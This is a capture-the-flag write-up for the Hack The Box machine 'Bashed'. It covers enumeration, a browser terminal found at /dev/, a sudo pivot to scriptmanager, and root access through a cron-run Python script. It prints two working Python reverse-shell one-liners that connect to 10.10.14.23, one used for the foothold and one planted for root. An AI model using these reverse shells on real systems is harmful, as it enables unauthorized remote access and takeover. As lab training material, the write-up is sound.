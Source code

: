 https://app.hackthebox.com/machines/Bashed

## Review

- Directory enumeration gives a browser based terminal for initial access.
- Run a python reverse shell to gain user access in Kali.
- Running SUDO permission without a password execute the user "scriptmanager" without specifying a password. 
- The /scripts folder runs .py files as a cronjob as root.
- Create a python file with a reverse shell and root access will be gained.

## Enumeration

Run nmap scan to find for open ports.

![image](https://user-images.githubusercontent.com/93418272/184574697-9f6b6eb8-8dc8-45c7-b4c7-78354488cf37.png)


Port 80 shows us the following.

![image](https://user-images.githubusercontent.com/93418272/184574708-493fbab6-5678-413d-b873-b8e0af121037.png)


Nothing interesting

Run a gobuster scan to find for hidden dirrectories.

![image](https://user-images.githubusercontent.com/93418272/184574715-a47d2ab9-662f-40cd-987e-af85d2898af4.png)


/dev/ gives us the following.

![image](https://user-images.githubusercontent.com/93418272/184574731-94666953-45e8-4273-b95c-844d7cb3b9f4.png)


A browser based linux terminal.

![image](https://user-images.githubusercontent.com/93418272/184574746-33020726-14a1-4c45-835c-29b3ba227d0d.png)


The user arrexel has the user.txt file.

![image](https://user-images.githubusercontent.com/93418272/184574773-54b7f10c-fc51-4322-a4cd-3b16b3dd646a.png)


## Foothold

Use a python reverse shell script to spawn a shell in kali.

''' python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.23",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' '''

Start a netcat listener .

![image](https://user-images.githubusercontent.com/93418272/184574904-59bf5ebe-fb19-4beb-8932-170d66142391.png)


sudo -l indicates we are able to use sudo on scriptmanager.

![image](https://user-images.githubusercontent.com/93418272/184574914-770ca703-1d51-4a08-8bd0-9da102fa84df.png)


Spawn a python shell and and run sudo on scriptmanager.

![image](https://user-images.githubusercontent.com/93418272/184574924-ff1c73f2-b156-4862-a595-787d25a3389f.png)


Find the scripts folder.

![image](https://user-images.githubusercontent.com/93418272/184574930-a4fe7a65-e871-4613-8ae6-7efaae284770.png)


There is a python script that writes a txt file.

To check if its a cron job , i tried removing the test.txt file but unable to do so. Rename the file and after some time a new test.txt file appears.

![image](https://user-images.githubusercontent.com/93418272/184574953-0e4a65f0-fe62-44ad-848b-a060d71aa8b6.png)


This machine seems to run .py files as a cron job and also done by root.

## Privilege escalation

Let's create a new python script with a reverse shell to our machine.

''' echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.23",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > exploit.py '''

![image](https://user-images.githubusercontent.com/93418272/184574993-87cd6a0e-8057-417f-ac92-ce75b1e60a88.png)


Root shell is gained.

![image](https://user-images.githubusercontent.com/93418272/184575001-a75b7599-7243-44f0-8fd6-66bcb3b1b47f.png)


The final flag is found.

![image](https://user-images.githubusercontent.com/93418272/184575010-7d9c9f52-d0dc-4353-8ed8-a9ff70422fe0.png)
